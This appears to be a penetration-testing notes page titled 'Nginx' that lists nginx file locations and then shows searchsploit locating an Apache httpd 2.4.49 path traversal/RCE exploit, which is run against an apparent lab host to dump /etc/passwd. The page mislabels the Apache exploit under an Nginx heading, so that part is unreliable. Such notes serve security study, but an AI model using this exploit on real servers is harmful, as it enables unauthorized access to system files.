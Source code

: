```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Nginx

## Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>/usr/share/nginx/html/</code></td></tr><tr><td><strong>Config</strong></td><td><code>/etc/nginx/nginx.conf</code></td></tr><tr><td><strong>Logs</strong></td><td><code>/var/log/nginx/</code></td></tr></tbody></table>

## Versions

### 2.4.49

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}
